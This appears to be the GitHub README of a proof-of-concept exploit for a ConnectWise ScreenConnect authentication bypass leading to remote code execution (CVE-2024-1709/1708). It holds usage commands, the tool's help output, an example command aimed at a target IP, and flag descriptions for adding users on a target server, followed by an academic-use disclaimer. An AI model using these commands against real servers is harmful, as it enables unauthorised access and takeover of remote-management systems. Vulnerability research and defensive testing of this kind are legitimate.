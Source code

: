 #
<h2>CoonectWise Remote Code Execution</h2>

- <b>Common Vulnerabilities and Exposures ID: 
CVE-2024-1709
</b>

- <b>CVSS v3 Score: 9.5 (Critical)</b>
  
- <b>Description: This is a critical authentication bypass vulnerability affecting ConnectWise ScreenConnect versions 23.9.7 and earlier. This vulnerability allows an attacker to bypass authentication and gain unauthorized access to systems and sensitive information. </b>

## POC
[Root Cause Analysis (RCA) & Indicators Of Comprimise (IOCs):](https://arcticwolf.com/resources/blog/cve-2024-1709-cve-2024-1708-follow-up-active-exploitation-and-pocs-observed-for-critical-screenconnect-vulnerabilities/)

## Usage
```
pip install requests
# python 
check.py
python batchAdduser.py
```
![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708
 && 
CVE-2024-1709
 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

## Execution:
* -u or --username: Enter a username to potentially use in the attack.
* -p or --password: Enter a password to potentially use in the attack.
* -t or --target: Specify the URL of the target ScreenConnect server.
* -d or --domain (unclear purpose): Might be for specifying a domain name related to the target.
* --proxy: Allows using a proxy server for the attack (optional).

## Aditional Information:
>https://screenconnect.product.connectwise.com/communities/1/topics/1653-whitelist-custom-extensions-in-65

>https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf

## SecAdmin Notes
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

